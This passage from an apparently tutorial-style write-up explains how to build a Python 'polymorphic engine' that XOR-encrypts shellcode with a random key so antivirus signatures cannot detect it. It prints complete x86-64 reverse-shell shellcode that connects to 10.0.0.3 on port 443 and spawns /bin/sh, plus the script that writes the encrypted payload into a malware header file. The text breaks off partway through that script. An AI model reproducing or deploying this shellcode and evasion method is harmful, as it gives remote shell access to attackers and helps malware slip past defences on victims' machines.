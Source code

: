 however instead of having this in plain sight for signature detection algorithms,
we will obfuscate it with encryption using a very simple polymorphic engine written in python.

<br>

***

## Writing the Polymorphic Engine

***

Our polymorphic engine will only be used to generate a different-looking malware
for each instance. This is done using
[one-time pad](https://en.wikipedia.org/wiki/One-time_pad)
with a simple xor cipher.

The python file here simply creates a header file called `zmalware.h`
which contains the enciphered shellcode and corresponding one-time pad key.

```python
#!/bin/python

import os
import random, string

IPADDR=b"\x0a\x00\x00\x03" # 10.0.0.3
PORT=b"\x01\xbb"           # 443

# raw shellcode
RAW = b"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a" +\
b"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0" +\
b"\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24" +\
b"\x02" + PORT + b"\xc7\x44\x24\x04" + IPADDR + b"\x48\x89\xe6\x6a\x10" +\
b"\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48" +\
b"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a" +\
b"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54" +\
b"\x5f\x6a\x3b\x58\x0f\x05"

# generate a random key
KEY = os.urandom(len(RAW))

# create a string of the key to write to the header file
KEYstr = ''.join((r'\x' if b > 15 else r'\x0')+hex(b)[2:] for b in KEY)
print("KEY:")
print(KEYstr)
ciphertext = b""
for b1, b2 in zip(RAW,KEY):
    ciphertext += bytes([b1 ^ b2])

# create a string of the enciphered payload to write to the header file
cipherstr = ''.join((r'\x' if b > 15 else r'\x0')+hex(b)[2:] for b in ciphertext)
print("ciphertext:")
print(cipherstr)

include_statements = \
'\
#include <unistd.h>\n\
#include <stdio.h>\n\
#include <signal.h>\n\
#include <stddef.h>    // size_t\n\
#include <stdint.h>    // uint8_t, uint32_t\n\
#include <string.h>    // memcpy\n\
#include <sys/mman.h>  // mmap, mprotect, munmap, MAP_FAILURE\n\n\
'

```